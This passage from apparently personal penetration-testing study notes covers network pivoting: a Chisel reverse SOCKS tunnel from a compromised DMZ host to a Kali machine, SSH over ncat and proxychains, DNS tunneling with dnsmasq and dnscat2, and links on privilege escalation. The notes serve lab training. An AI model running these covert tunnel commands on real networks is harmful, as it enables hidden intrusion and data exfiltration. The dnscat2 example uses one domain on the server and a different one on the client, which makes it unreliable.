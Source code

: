 ```
4. On `KALI01`, run Chisel `chisel server --port 8080 --reverse` and run `sudo tcpdump -nvvvXi <INTERFACE> tcp port 8080`
   - `ip a` retrieve the list of all interfaces
5. On `DMZ01`, run the Chisel client command`/tmp/chisel client <KALI01-IP>:8080 R:socks > /dev/null 2>&1 &`
6. Now, you should be able to see inbound Chisel traffic and an incoming connection in the Chisel server
7. Check if the SOCKS port has been opened by the `KALI01` Chisel server with `ss -ntplu`
8. How to use the HTTP Tunnel
   - SSH with Ncat: Pass an Ncat command to ProxyCommand to use the socks5 protocol and the proxy socket at `127.0.0.1:1080` to connect to `INTERNAL01`
     - `ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' <username>@<IP>`
     - `%h` and `%p` tokens represent the SSH command host and port values
   - Another option is to use ProxyChains by adding `socks5 127.0.0.1 1080` to `/etc/proxychains.conf` and prepending `sudo proxychains` to each command we want to run


### DNS Tunneling

#### Dnsmasq to setup a DNS resolver
1. Setup: `WAN`, `DMZ` and `INTERNAL`
2. From a machine inside `WAN`, setup a DNS server by using a software like [Dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html)
   - `sudo dnsmasq -C dnsmasq.conf -d`. An example of configuration (see also [dnsmasq.conf.example](https://github.com/PowerDNS/dnsmasq/blob/master/dnsmasq.conf.example)):
     ```
     # Do not read /etc/resolv.conf or /etc/hosts
     no-resolv
     no-hosts

     # Define the zone
     auth-zone=organization.corp
     auth-server=organization.corp

     # TXT record
     txt-record=www.organization.corp,some info.
     txt-record=www.organization.corp,some other info.
     ```
   - `sudo tcpdump -i ens192 udp port 53`

#### [dnscat2](https://github.com/iagox86/dnscat2)
1. Setup: `WAN`, `DMZ` and `INTERNAL`
2. Start `dnscat2-server organization.corp` from `WAN` and connect from `INTERNAL` to it with `./dnscat feline.corp`
3. From `dnscat2-server` > `window -i 1` > `listen 127.0.0.1:<lister-PORT> <IP>:<PORT>`
   - `<IP>:<PORT>` = machine from `INTERNAL` 

### Metasploit Portfwd
- [Metasploit Unleashed - Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)


## Linux Privilege Escalation

### Resources
- [TryHackMe | Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
- [Linux Privilege Escalation for OSCP & Beyond! | Udemy](https://www.udemy.com/course/linux-privilege-escalation/)
- ["Understanding and Using File Permissions | Ubuntu"](https://help.ubuntu.com/community/FilePermissions)
- ["File permissions and attributes | Arch Linux"](https://wiki.archlinux.org/title/File_permissions_and_attributes)
```